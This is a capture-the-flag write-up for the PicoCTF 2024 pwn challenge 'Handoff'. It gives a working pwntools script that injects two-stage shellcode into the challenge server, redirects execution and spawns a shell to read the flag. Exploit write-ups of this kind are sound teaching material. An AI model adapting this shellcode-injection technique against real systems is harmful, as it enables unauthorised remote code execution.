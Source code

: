 # Handoff - PicoCTF 2024

## Challenge Information

- **Category**: Pwn
    
- **Points**: 400
    
- **Author**: SkrubLawd
    
- **Description**:
    
    - Download the binary: handoff
        
    - Download the source: source
        
    - Connect to the server:
        
        ```
        nc shape-facility.picoctf.net 62192
        ```
        

---

## Analysis

The challenge provides a binary named `handoff`. Since we are dealing with a Pwn challenge, we begin by analyzing the binary using tools like `checksec`, `file`, and `strings` to gather basic information.

```
checksec --file=handoff
```

This will tell us whether the binary has mitigations like **PIE, NX, Canary, RELRO**, etc.

Running `strings` might help identify interesting function calls.

To understand the program flow, we can decompile it using Ghidra or IDA Pro. Using `gdb` or `pwndbg`, we can debug and analyze how user input is processed.

---

## Exploitation Strategy

### Observations:

1. The program allows sending input in different stages.
    
2. It does not properly handle input, allowing for shellcode injection.
    
3. We can leverage this to execute arbitrary code by controlling the instruction pointer.
    

### Plan:

1. Send an initial shellcode payload to perform basic setup.
    
2. Inject secondary shellcode to redirect execution flow to our shell payload.
    
3. Gain a shell by executing `execve("/bin/sh")`.
    

---

## Exploit Code

We use `pwntools` to interact with the remote service and craft our payload.

```
from pwn import *

# Set up the binary and context
elf = context.binary = ELF('./handoff')

# Connect to the remote server
p = remote('shape-facility.picoctf.net', 62192)

# Define the first stage shellcode
shellcode = asm('''
    xor rsi, rsi
    push 0
    pop rax
    xor rdi, rdi
    mov rsi, rsp
    push 0x64
    pop rdx
    syscall
    jmp rsp
''')

# Define the second stage shellcode
newshellcode = asm('''
    sub rax, 716
    jmp rax
    jmp rax
''')

# Interact with the program
p.sendlineafter(b'app', b'1')
p.sendlineafter(b'name:', b'name')

p.sendlineafter(b'app', b'2')
p.sendlineafter(b'to?', b'0')
p.sendlineafter(b'them?', shellcode)

# Prepare the payload
payload = newshellcode
payload += asm('nop') * (20 - len(payload))
payload += p64(0x401014)  # Address to redirect execution

# Send the payload
p.sendlineafter(b'app', b'3')
p.sendlineafter(b'it:', payload)

# Send the final shellcode to spawn a shell
p.sendline(asm(shellcraft.sh()))

# Switch to interactive mode
p.interactive()
```

---

## Execution & Shell Access

1. Run the exploit script:
    
    ```
    python3 exploit.py
    ```
    
2. If successful, we gain a shell and can read the flag with:
    
    ```
    cat flag.txt
    ```
    

---

## Conclusion

This challenge required a two-stage shellcode execution technique to hijack execution flow and gain control over the program. By crafting shellcode carefully and leveraging memory manipulation, we were able to bypass security mechanisms and achieve remote code execution.